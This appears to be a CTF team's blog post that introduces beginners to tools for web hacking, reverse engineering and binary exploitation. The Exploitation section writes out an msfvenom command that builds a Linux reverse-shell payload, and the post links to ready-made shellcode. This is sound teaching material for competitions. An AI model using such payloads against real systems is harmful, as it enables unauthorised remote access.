 ```yaml
---
layout: post
title: "Basic Tools"
categories: learning
author: saelo
---
```


CTFs are about the skill, not about the tools. Still, you'll need a couple of tools to be successful.\\
In general a good advice is to get used to working with the OS shell. There's really **a lot** of things you can do **very** quickly and effectively if you know your way around bash/zsh/*your_favourite_shell_here* and python or *your_favourite_scripting_language_here*.

Get used to curl, bash for + while loops, grep, pipes, file redirection, command substitution, fifos, ... you name it. Also choose a decent text editor (vim, sublime, emacs, ... **not** nano or similar :P) and learn how to use it properly.

Try to stay away from tools that automate too much, you'll not learn anything from using them and they most likely won't help you solve the challenge. Automated tools definitely lack behind a skilled human :)


###General Tools

There's a couple of useful Unix tools you'll often need during CTFs. Some tools you should be familiar with:

Tool           | Description
-------------- | -----------------------------------------------------------------------------------------------
strings        | Search for strings in files, supports 8, 16 and 32 bit Unicode
-------------- | -----------------------------------------------------------------------------------------------
file           | Try to detect the file type based on magic byte sequences at the start of the file
-------------- | -----------------------------------------------------------------------------------------------
netcat/nc      | Connect to a remote tcp/udp/sctp server and talk to it from the command line
-------------- | -----------------------------------------------------------------------------------------------
hexdump/xxd    | View files and data in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
hexedit/ghex   | Edit files in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
strace/ltrace  | Trace the execution of a binary, log syscalls/library function calls
-------------- | -----------------------------------------------------------------------------------------------
wireshark      | View network traffic, either live or from a pcap file
-------------- | -----------------------------------------------------------------------------------------------


###Web Security

My favourite tool for doing any kind of web hacking is the [Burp Suite](http://portswigger.net/burp/). Burp Suite is a very powerful and flexible tool and the free version is usually sufficient. For a start you'll want to make yourself familiar with the Proxy and the Repeater. Also take a look at the Intruder at some point.\\
Oftentimes a combination of curl, grep and sometimes a bash loop or similar can work wonders too though.

Additionally make yourself familiar with how to make web requests from your favourite scripting language. For python I can recommend the [requests](http://docs.python-requests.org/en/latest/) package.

Moreover it might be a good idea to have a few VMs (try out [vagrant](https://www.vagrantup.com/)) or [docker](https://www.docker.com/) containers ready so you can quickly run some server side code locally to develop and debug your exploit.

Ultimately web hacking really isn't about (automated) tools, so don't start running some vuln discovery tool or directory bruteforcer against the web server, it will get you nowhere and will just put the organizers web servers under unnecessary load.


###Reverse Engineering

You'll need a disassembler: Basically you have the choice between [radare2](https://github.com/radare/radare2), [hopper](http://www.hopperapp.com/) and [IDA Pro](https://www.hex-rays.com/products/ida/) (there's a free/evaluation version available for both, hopper and IDA). IDA Pro is pretty much the industry standard tool for reverse engineering (and thus relatively pricey).

For debugging you'll definitely want to make yourself familiar with gdb. If you want an improved UI you can take a look at the .gdbinit from [here](https://github.com/gdbinit/Gdbinit) or try out [voltron](https://github.com/snare/voltron).

If you need to do reverse engineering and/or debugging on Windows, take a look at [x64dbg](http://x64dbg.com/#start), [OllyDbg](http://www.ollydbg.de/) or the [Immunity Debugger](http://debugger.immunityinc.com/). Also [WinDbg](http://www.windbg.org/) is very powerful, especially since it can do kernel level debugging (rarely needed during CTFs though).


###Exploitation

Since reverse engineering a binary is usually the first step towards developing an exploit for it, make sure to also read the section on reverse engineering.

For your exploit you can usually grab some shellcode from the internet, e.g. [this one](http://shell-storm.org/shellcode/files/shellcode-752.php), but msfvenom can be useful, too. For example

    ./msfvenom \
     -p linux/x86/shell_reverse_tcp \
     LHOST=$(curl icanhazip.com) \
     LPORT=4444 \
     -b '\x00\x09\x0a\x0b\x0c\x0d\x20' \
     -f python

will generate a reverse shell payload without zero bytes or whitespace in it and spit it out as ready to use python code.\\
If you need to build a ROP payload, give [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) a try (metasploit has a similar utility called msfrop, but I found ROPgadget to work better most of the times).

Some other useful tools include the [checksec.sh](http://www.trapkit.de/tools/checksec.html) script to quickly check which mitigations are enabled on a binary, the [pattern_create](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb) and [pattern_offset](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb) scripts from metasploit to find various important offsets (e.g the offset from the start of a buffer to the saved return address on the stack), as well as the metasm shell (for example to quickly assemble a "jmp short 0x10" to jump over some corrupted part of the shellcode) or nasm (to build your own shellcode).

Also (shameless plug) take a look at our [ctfcode repository](https://github.com/kitctf/ctfcode) :)
